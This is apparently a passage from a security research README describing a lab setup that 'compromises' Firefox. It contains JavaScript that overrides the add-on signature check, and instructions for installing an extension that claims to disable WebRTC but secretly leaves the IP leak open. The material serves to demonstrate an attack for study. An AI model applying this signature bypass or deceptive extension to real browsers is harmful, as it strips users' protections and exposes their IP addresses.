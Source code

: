 ```javascript
	if (useDbg) {
		jsval = g.ChromeUtils.import(xpii);

		var env = genv(jsval.XPIInstall.installTemporaryAddon);
		var ref = name => {try {return env.find(name).getVariable(name).unsafeDereference();} catch {}}
		jsval.XPIDatabase = (ref("lazy") || {}).XPIDatabase || ref("XPIDatabase");

		var proto = ref("Package").prototype;
		var verify = proto.verifySignedState;
		proto.verifySignedState = function(id) {
			return id ? {cert: null, signedState: undefined} : verify.apply(this, arguments);
		}
		dbg.removeAllDebuggees();
	}
	if (disleg) jsval.XPIDatabase.isDisabledLegacy = () => false;
})(
	"permitCPOWsInScope" in Cu ? Cu.import("resource://gre/modules/WebRequestCommon.jsm", {}) : Cu
);}
catch(ex) {Cu.reportError(ex);}
```

To compromise your Firefox web browser automatically on Ubuntu, go to the [`2-compromising-firefox/2-compromising-firefox-unsigned-extensions-version`](2-compromising-firefox/2-compromising-firefox-unsigned-extensions-version) folder, open the [`index.html`](2-compromising-firefox/2-compromising-firefox-unsigned-extensions-version/index.html) page and follow the instructions on that page. The page will ask you in this order:
1. to compromise Firefox using the a compromising script (located in the folder), then
2. to install an extension whose official purpose is to disable WebRTC and whose **hidden purpose** is to **leave WebRTC enabled** (and therefore vulnerable to the WebRTC IP address leakage).

## References

[[10](#4220-prerequisites)] Docker, *Install Docker Desktop on Windows*, Docker Docs. Accessed: Feb. 26, 2024. [Online]. Available: https://docs.docker.com/desktop/install/windows-install/.  
[[11](#4220-prerequisites)] F. van Dorsselaer et al, *usbipd-win*. Feb. 03, 2024. Accessed: Feb. 26, 2024. [Online]. Available: https://github.com/dorssel/usbipd-win.  
[[12](#4220-prerequisites)] C. Lowen et al., *Connect USB devices*, Microsoft Learn. Accessed: Feb. 26, 2024. [Online]. Available: https://learn.microsoft.com/en-us/windows/wsl/connect-usb.  
[[13](#windows-issues)] Docker, *Enable IPv6 support*, Docker Documentation. Accessed: Mar. 05, 2024. [Online]. Available: https://docs.docker.com/config/daemon/ipv6/.  
[[14](#windows-issues)] dindin, *Open Bug 1600584 - [Wayland] [Weston] Firefox 70, Drop-down list is not working in weston*, Bugzilla. Accessed: Mar. 05, 2024. [Online]. Available: https://bugzilla.mozilla.org/show_bug.cgi?id=1600584.  
[[15](#4230-prerequisites)] M. Kari, *Running an X Server with Indirect GLX Rendering on MacOS for containerized applications with GUIs*. Accessed: Mar. 04, 2024. [Online]. Available: https://mohamedkari.github.io/blog.mkari.de/posts/glx-on-mac/.  
[[16](#macos-issues)] M. Graff and J. Dubois, *MacOS USB device passthrough to a Docker container · rancher-sandbox/rancher-desktop · Discussion #3904*, GitHub. Accessed: Feb. 23, 2024. [Online]. Available: https://github.com/rancher-sandbox/rancher-desktop/discussions/3904.  
[[17](#macos-issues)] M. Weinold, *USB Passthrough on macOS · Open Issue \#511 · docker/roadmap*, GitHub. Accessed: Feb. 23, 2024. [Online]. Available: https://github.com/docker/roadmap/issues/511.  
[[18](#43-compromised-firefox-web-browser)] A. Wyman et al., *Install Firefox .deb package for Debian-based distributions* **In**: *Install Firefox on Linux*, Mozilla Support. Accessed: May 24, 2024. [Online]. Available: https://support.mozilla.org/en-US/kb/install-firefox-linux#w_install-firefox-deb-package-for-debian-based-distributions.  
[[19](#431-threat-model)] banbot, *Как отключить проверку цифровых подписей в дополнениях Firefox [How to disable digital signature verification in Firefox add-ons]*, Forum Mozilla Russia. Accessed: Feb. 26, 2024. [Online]. Available: https://forum.mozilla-russia.org/viewtopic.php?id=70326.